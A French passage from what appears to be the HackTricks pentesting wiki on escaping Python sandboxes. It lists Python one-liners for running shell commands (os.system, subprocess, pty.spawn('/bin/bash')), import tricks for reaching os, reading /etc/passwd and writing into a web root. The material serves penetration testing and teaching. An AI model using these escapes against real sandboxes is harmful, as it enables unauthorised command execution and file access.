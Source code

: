 # Contourner les sandbox Python

![](<../../../.gitbook/assets/image (9) (1) (2).png>)

Utilisez [**Trickest**](https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks) pour créer et automatiser facilement des flux de travail alimentés par les outils communautaires les plus avancés au monde.\
Obtenez l'accès aujourd'hui :

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

Voici quelques astuces pour contourner les protections de sandbox Python et exécuter des commandes arbitraires.

## Bibliothèques d'exécution de commandes

La première chose que vous devez savoir est si vous pouvez exécuter directement du code avec une bibliothèque déjà importée, ou si vous pouvez importer l'une de ces bibliothèques :
```python
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.os.system("ls")
pdb.os.system("ls")

#Import functions to execute commands
importlib.import_module("os").system("ls")
importlib.__import__("os").system("ls")
imp.load_source("os","/usr/lib/python3.8/os.py").system("ls")
imp.os.system("ls")
imp.sys.modules["os"].system("ls")
sys.modules["os"].system("ls")
__import__("os").system("ls")
import os
from os import *

#Other interesting functions
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')

#In Python2.7
execfile('/usr/lib/python2.7/os.py')
system('ls')
```
N'oubliez pas que les fonctions _**open**_ et _**read**_ peuvent être utiles pour **lire des fichiers** à l'intérieur du sandbox python et pour **écrire du code** que vous pourriez **exécuter** pour **contourner** le sandbox.
